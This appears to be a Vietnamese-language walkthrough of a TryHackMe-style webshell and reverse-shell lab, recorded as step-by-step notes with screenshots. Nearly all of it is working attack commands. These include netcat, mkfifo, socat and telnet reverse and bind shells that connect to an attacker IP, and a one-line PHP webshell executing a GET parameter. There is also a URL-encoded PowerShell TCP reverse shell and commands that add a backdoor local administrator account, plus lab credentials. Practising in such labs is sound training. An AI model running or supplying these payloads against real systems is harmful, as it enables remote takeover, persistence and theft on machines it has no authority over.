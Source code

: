 # Practical Webshell

IP attacker: 10.10.45.62

IP victim: 10.10.237.148

1. Vào  /usr/share/webshells/php/php-reverse-shell.php thay đổi IP và Port. 

![image.png](img/image.png)

1. Cài đặt cổng lắng nghe sau đó upload  php-reverse-shell.php và thực thi nó
    
    ![image.png](img/image%201.png)
    

---

---

---

- **Username:** shell
- **Password:** TryH4ckM3!
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    ![image.png](img/image%202.png)
    
2. Dùng reverse shell và bind shell
    
    ### **Bind shell**
    
    Victim
    
    ```jsx
    mkfifo /tmp/f; nc -lvnp 1235 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```
    
    Attacker
    
    ```jsx
    nc 10.10.237.148 1235
    ```
    
    ![image.png](img/image%203.png)
    
    ### Reverse shell
    
    Attacker
    
    ```jsx
    nc -lvnp 1235
    ```
    
    Victim
    
    ```jsx
    mkfifo /tmp/f; nc 10.10.45.62 1235 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```
    
    ![image.png](img/image%204.png)
    

---

---

---

- **Username:** shell
- **Password:** TryH4ckM3!
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    ![image.png](img/image%202.png)
    
2. Reverse and Bind shells dùng Socat
    
    ### Reverse shell
    
    Attacker
    
    ```jsx
    socat TCP-L:1235 -
    ```
    
    Victim
    
    ```jsx
    socat TCP:10.10.45.62:1235 EXEC:"bash -li"
    ```
    
    ![image.png](img/image%205.png)
    
    ### Bind shell
    
    Victim
    
    ```jsx
    socat TCP-L:1235 EXEC:"bash -li"
    ```
    
    Attacker
    
    ```jsx
    socat TCP:10.10.237.148:1235 -
    ```
    

---

---

---

- **Username:** shell
- **Password: TryH4ckM3!**
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    ![image.png](img/image%202.png)
    
2. Tạo 2 nc lắng nghe trên máy attacker và trên máy Victim tạo kết nối về máy attacker
    
    Attacker
    
    ```jsx
    nc -lvp 8080
    nc -lvp 8081
    ```
    
    Victim
    
    ```jsx
    telnet 10.10.45.62 8080 | /bin/sh | telnet 10.10.45.62 8081
    ```
    
    - Khi bạn chạy lệnh trên máy nạn nhân, nó sẽ tạo ra hai kết nối telnet đến máy tấn công.
    - Trên máy tấn công, bạn sẽ thấy đầu ra của các lệnh bạn thực thi trên máy nạn nhân trong kết nối telnet trên cổng 8081.
    - Bạn có thể nhập các lệnh vào kết nối telnet trên cổng 8080, và chúng sẽ được thực thi trên máy nạn nhân.
    
    ![image.png](img/image%206.png)
    

---

---

---

Switch to the Windows VM. Try uploading and activating the **`php-reverse-shell`**. Does this work?

![image.png](img/image%207.png)

![image.png](img/image%208.png)

![image.png](img/image%209.png)

---

1. Tạo 1 webshell.php bên trong chứa
    
    ```jsx
    <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
    ```
    
2. Upload webshell.php lên web victim và thực hiện lệnh `whoami`
    
    ![image.png](img/image%2010.png)
    
3. Tạo 1 trình lắng nghe trên máy attacker
    
    ```jsx
    nc -lnvp 1234
    ```
    
4. Tạo 1 shell RCE
    
    ```jsx
    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.45.62%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
    ```
    
    Tạm hiểu là IP đích là IP của attacker và cổng đang lắng nghe do attacker tạo
    
    ![image.png](img/image%2011.png)
    

---

---

Đăng nhập vào Winsever 2019 

- **Username:** Administrator
- **Password:** TryH4ckM3!

Hoặc dùng lệnh 

```jsx
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.10.24 /u:Administrator /p:'TryH4ckM3!'
```

![image.png](img/image%2012.png)

1. Tạo tài khoảng user mới và thêm  "administrators" group
    
    ```jsx
    PS C:\xampp\htdocs\uploads> net user tnwan1 12345 /add
    The command completed successfully.
    
    PS C:\xampp\htdocs\uploads> net localgroup administrators tnwan1 /add
    The command completed successfully.
    ```
    
    1. Đăng nhập vào tài khoảng vừa tạo
        
        ```jsx
        xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.10.24 /u:tnwan1 /p:12345
        ```
        
        ![image.png](img/image%2013.png)
        

---

---

---

Cheat Sheet: [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)